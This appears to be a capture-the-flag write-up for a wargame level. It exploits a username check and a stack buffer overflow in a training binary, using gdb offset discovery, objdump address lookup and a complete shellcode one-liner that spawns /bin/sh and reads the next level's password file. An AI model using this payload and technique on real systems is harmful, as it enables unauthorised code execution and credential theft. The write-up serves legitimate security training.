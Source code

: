 # Level01

## shellcode injection

```c
char a_user_name[100];


int verify_user_name()
{
    puts("verifying username....\n");
    return memcmp(a_user_name, "dat_wil", 7) != 0;
}
```

We can see that the username check is made with 7 in memcmp limit.
So we can put what we want after dat_wil.

```shell
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wilabdcef
verifying username....

Enter Password: 
pass
nope, incorrect password...
```

## buffer overflow

```c
    char password[64];
    ...
        puts("Enter Password: ");
        fgets(password, 100, stdin);
```

There is a fgets of 100 chars in a buffer of 64.
We can check the buffer overflow offset with a buffer overflow mask.

```shell
$ gdb ./level01
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The register value gives us an offset of 80.

## Find the shellcode address

The shellcode will be in the username string, just after "dat_wil".
Therefore we can add 7 to the `a_user_name`'s address.

We can get the address of `a_user_name` with objdump.

```shell
$ objdump -t ./level01 | grep a_user_name
0804a040 g     O .bss	00000064              a_user_name
```

```
shellcode addr:
    0x0804a040 + 0x7 = 0x0804a047
```

## Exploit

We can write an exploit with in first input "dat_wil" + shellcode and in second 80 * "a" + \x47\xa0\x04\x08.

```shell
(echo -e "dat_wil\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"; python -c  'print "a" * 80 + "\x47\xa0\x04\x08"'; echo "cat /home/users/level02/.pass") | ./level01
```
